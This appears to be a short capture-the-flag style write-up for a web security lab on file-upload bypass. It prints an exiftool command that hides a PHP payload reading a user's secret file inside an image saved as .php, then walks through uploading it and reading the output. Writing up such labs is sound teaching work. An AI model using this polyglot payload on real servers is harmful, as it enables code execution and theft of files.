 ![image](https://github.com/udayk01/Web-Security/assets/52235763/f165dbfa-3b29-43fb-9410-748ad62c02c4)

## Solution:

> When the exploit PHP code was attempted to be uploaded, the server refused access, claiming it was not an image file.

![image](https://github.com/udayk01/Web-Security/assets/52235763/d3921bed-4745-4300-b4de-217a696b5cb1)

> Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata using exiftoolwith this command

```exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.png -o polyglot.php```

![image](https://github.com/udayk01/Web-Security/assets/52235763/80727c47-d7d8-4a84-91c5-0e1e8b514fb0)

>> This adds your PHP payload to the image's Comment field, then saves the image with a .php extension.

> In the browser, upload the polyglot image as your avatar,

![image](https://github.com/udayk01/Web-Security/assets/52235763/a1d86189-f12f-4a73-8b2b-796aaa2884e0)

> Then go back to the account page.

 ![image](https://github.com/udayk01/Web-Security/assets/52235763/8eef6a0c-51fb-4c00-b607-8a0db579aa91)

> In Burp's proxy history, find the GET ```/files/avatars/polyglot.php``` request.

![image](https://github.com/udayk01/Web-Security/assets/52235763/8f191ef9-177e-4da1-acb4-5323577dc2d0)

> Use the message editor's search feature to find the START string somewhere within the binary image data in the response. Between this and the END string, you should see Carlos's secret.

![image](https://github.com/udayk01/Web-Security/assets/52235763/cb6d3df0-8bdc-421b-b119-17d96a05929c)

> Secret Message: OZ61PxSpwk0pcCS3ria7M8XT5HsJq9Pb

![image](https://github.com/udayk01/Web-Security/assets/52235763/a4d1b1bf-eddb-4964-97d2-e9233f6fc184)


